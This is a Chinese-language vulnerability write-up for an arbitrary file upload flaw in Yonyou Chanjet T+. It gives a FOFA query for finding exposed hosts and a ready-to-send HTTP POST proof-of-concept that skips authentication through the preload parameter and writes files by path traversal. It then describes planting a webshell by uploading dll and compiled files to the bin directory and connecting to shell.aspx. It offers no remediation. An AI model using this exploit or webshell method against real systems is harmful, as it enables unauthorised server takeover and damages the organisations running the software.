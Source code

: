 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-2353804.png)

存在漏洞的接口为 /tplus/SM/SetupAccount/Upload.aspx , 对应文件 App_Web_upload.aspx.9475d17f.dll

![img](../../../.vuepress/public/img/1662034256298-447ab241-2def-46e0-a97d-9dae60549044.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 aspx木马无法直接利用，需要通过上传 dll 与 compiled 文件后利用Webshell

![img](../../../.vuepress/public/img/1662034644623-835164ab-e259-41ab-9999-2a5ef462a462.png)

将 dll 与 compiled 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![img](../../../.vuepress/public/img/1662037558563-ffb9835f-fc57-4d45-bc08-dfdf5cb2892d.png)

![img](../../../.vuepress/public/img/1662037573454-3bc3ef0c-3ff2-46b6-b90a-ef3c72150be2.png)

![img](../../../.vuepress/public/img/1662037605211-d44eed98-a1e1-4bac-85be-bb2909844f68.png)

再访问写入的Webshell进行连接

```html
/tplus/shell.aspx?preload=1	
```